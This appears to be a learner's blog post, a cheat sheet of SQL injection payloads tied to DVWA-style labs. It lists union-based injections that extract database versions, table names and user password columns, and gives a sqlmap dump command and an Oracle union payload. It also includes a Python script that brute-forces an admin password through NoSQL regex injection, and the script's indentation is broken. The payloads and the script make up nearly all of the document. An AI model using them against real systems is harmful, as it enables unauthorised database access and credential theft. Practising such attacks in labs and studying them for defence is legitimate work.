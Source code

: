 ```yaml
---
title: SQL CheatSheet
date: 2021-09-12
categories:
  - Notes
tags:
  - Notes
  - SQL
excerpt_separator: <!--more-->
---
```



<style>
  pre {
     overflow-x: auto;
     white-space: pre-wrap;
     white-space: -moz-pre-wrap;
     white-space: -pre-wrap;
     white-space: -o-pre-wrap;
     word-wrap: break-word;
  }
</style>


<p><img src="/assets/images/dvwa/SQLi/sql.png" alt="" /></p>

<h1>SQL Injection</h1>
<p>CheatSheet</p>
<p>
Display Database Version<br>
%' or 0=0 union select null, version() #<br>
<br>
Display Database User<br>
%' or 0=0 union select null, user() #<br>
<br>
Display Database Name<br>
%' or 0=0 union select null, database() #<br>
<br>
Display all tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables #<br>
<br>
Display all the user tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#<br>
<br>
Display all the columns fields in the information_schema user table<br>
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #<br>
<br>
Display all the columns field contents in the information_schema user table<br>
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #<br>
</p>

<code>sqlmap http://[IP]/admin?user=3 --cookie='token=[Enter Cookie] --technique=U --delay=2 -dump</code>

<h2>Nosql</h2>

<h4>Shitscript</h4>


<pre><code>
import requests
bruten = '1234567890abcdef-'
xx=0
x = bruten[xx]
keylist = ""
keystr = keylist + x
#URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
r = requests.get(URL)
s = (len(r.content))

while True:
  try:
    for i in range(0, 17):    
      x = bruten[xx]
      keystr = keylist + x
      #URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
      URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
      print(URL)
      print(keystr)
      #print(keylist)
      r = requests.get(URL)
      s = (len(r.content))
      #print(s)
      if s == 1614:
        keystr = keylist + x
        keystr = keystr
        keylist = keylist + x
        #print(keylist)
        xx=0
        continue
  
      else:
        #keylist = ""
        keystr = keylist + x
        keystr = keystr
        xx+=1
        continue
    except:
      print("crackarooniedddddd")
      print('password is ' + keystr[:-1])
      break  </code></pre>


<h2>oracle </h2>

<code>1' UNION SELECT 'asd', banner FROM v$version--</code>

<p>use table called dual to enum columns</p>